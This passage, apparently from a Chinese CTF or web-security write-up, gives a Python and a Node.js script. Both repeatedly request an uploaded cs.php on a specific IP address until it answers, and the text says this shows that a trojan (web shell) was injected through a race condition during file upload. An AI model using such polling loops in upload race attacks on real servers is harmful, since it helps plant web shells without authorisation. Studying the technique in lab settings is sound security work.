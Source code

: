 我们写一个脚本来访问 `cs.php`，只要有一瞬间访问得到，那我们的木马就注入成功了：

这是 Python 版的脚本：

```python
import requests

url = "http://175.178.126.31:8082/upload/cs.php"

while True:

    html = requests.get(url)

    if html.status_code == 200:

        print("OK")

        break
```

这是 JavaScript 版的脚本：

```js
// 在 Node.js 18+ 中，fetch 是全局可用的，不需要额外安装
const url = "http://175.178.126.31:8082/upload/cs.php";

async function checkServer() {
  while (true) {
    try {
      // 使用 fetch 发起 GET 请求
      const response = await fetch(url);

      // fetch 不会在 HTTP 错误状态上 reject, 只有网络错误或请求被阻止时才会 reject.
      // 因此，我们需要通过检查 ok 状态来抛出错误。
      if (response.ok) {
        console.log("OK");
        break;  // 如果响应是 200-299 之间，表示成功，退出循环
      } else {
        // 如果 HTTP 状态码不是成功的，抛出错误以被捕获
        throw new Error(`HTTP Error: ${response.status}`);
      }
    } catch (error) {
      // 打印错误信息
      console.error(`An error occurred: ${error}`);
    }
  }
}

// 调用函数
checkServer();
```

执行 JS 版脚本： 

![](http://img.wukaipeng.com/2023/10/25-083100-image-20231025083100442.png)
